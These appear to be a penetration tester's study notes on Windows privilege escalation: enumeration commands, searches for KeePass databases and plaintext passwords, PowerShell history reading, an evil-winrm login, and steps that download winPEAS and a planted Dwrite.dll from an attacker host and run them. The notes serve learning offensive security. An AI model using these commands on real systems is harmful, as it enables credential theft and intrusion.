           Well Known SIDs
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator

Tokens describe the security context of a user
When a user starts a process / thread, they are assigned a primary token. This is a copy of the user's access token.

Impersonation tokens are used to give different contexts than the process that owns the thread.

When processes are started or objects are created, they receive the integrity level of the principal performing this operation. 
One exception is if an executable file has a low integrity level, the process's integrity level will also be low.

- System: SYSTEM (kernel, ...)
- High: Elevated users
- Medium: Standard 
- Low: very restricted rights often used in sandboxed

### Situational Awareness

Key Information for Windows privilege escalation
-Username and hostname
  whoami - you can infer data from hostname such as WEB01 for a web server or MSSQL01
  
- Group memberships of the current user
  whoami /groups
  
- Existing users and groups
  net user OR Powershell -> Get-LocalUser - list all users
  
  for groups keep an eye on things like helpdesk, backup, administrator, etc... rdp's pretty important too.
  net localgroup OR Get-LocalGroup -> List all groups
  Get-LocalGroupMember <groupnam> - List all users of group
  
- Operating system, version and architecture
  systeminfo

- Network information
  ipconfig /all
    is dhcp enabled? Is there a dns server? Is there a subnetmask or mac address?
    
  route print
  
  netstat -ano
    -a to display all active TCP connections as well as TCP and UDP ports, -n to disable name resolution, and -o to show the process ID for each connection.
  
- Installed applications
  show all x32 apps
  Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
  
  show all x64 apps
   Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
   
   ```mystuff
   NOTE: These paths only work if the apps properly register themselves... If you can't find anything, try this...
   "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths"
   : This path contains information about application executable paths.
   
   "HKCR\Installer\Products"
   : This path contains information about installed products as recorded by the Windows Installer.```
  
  Or just check Program Files in C:\
  
- Running processes
          
  Get-Process
  
  ```my stuff
          
  Get-Process | Select-Object Name, Id, Path, Company, IntegrityLevel -- Integrity didn't show for me.. maybe it needs admin perms to show
  
  search by pid
          
  Get-Process | Where-Object { $_.Id -eq <PID> } | Select-Object Name, Id, Path
  
  search by processname
          
  Get-Process | Where-Object { $_.Name -eq "process_name" }
  
  search by name with wildcard
          
  Get-Process | Where-Object { $_.Name -like "*myapp*" }
  ```
 
 ### Hidden in plain sight
       
Find password DB for keePass. Obviously for other password managers, this needs to be changed
          
 Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
          
Find config files that may have passwords in plain text...
          
 Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
          

          
 ### Information Gold Mine
          
 Get-History
 (Get-PSReadlineOption).HistorySavePath
          
 alternatively
          
 type $((Get-PSReadlineOption).HistorySavePath)

PowerShell Remoting by default uses WinRM for Cmdlets such as Enter-PSSession. Therefore, a user needs to be in the local group Windows Management Users to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.
          
Kali - login using winrm (NOTE SPECIAL CHARS MAY NEED TO BE ESCAPED)
          
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"

          
If RDP is annoying try this..
xfreerdp /u:USER /p:'PASSWORD' /v:$target /cert-ignore /w:1366 /h:768
          
xfreerdp /u:daveadmin /p:'mypassword' /v:'192.168.208.220' /cert-ignore /w:1366 /h:768
          
Search for event 4104 to see ScriptBlockLog events
         
### automation
 winPeas... serve it up to target using 
          
python3 -m http.server 80
          
then on target download using

iwr -uri http://192.168.45.230/winPEASx64.exe -Outfile winPEAS.exe
          
Start-Process -FilePath "winPEAS.exe" -RedirectStandardOutput "winlog.txt" -NoNewWindow -WindowStyle Hidden
# CMD
start /B cmd /C "winPEAS.exe > winPEAS.txt"
Get-Content winPEAS.txt | Out-Host -Paging

          
from INE I learned about using
 iwr -UseBasicParsing -Uri http://IP/Dwrite.dll -OutFile C:\Users\Administrator\Desktop\dvta\bin\Release\Dwrite.dll
          
** automated tools can be blocked by AV solutions. If this is the case, we can apply techniques learned in the Module "Antivirus Evasion", try other tools such as Seatbelt2 and JAWS,3 or do the enumeration manually.
          
winPeas misses things... don't forget manual enumeration...
          
       

          
         






 A skilled penetration tester's goal is therefore not to blindly attempt privilege escalation on every machine at any cost,
 but to identify machines where privileged access leads to further compromise of the client's infrastructure.
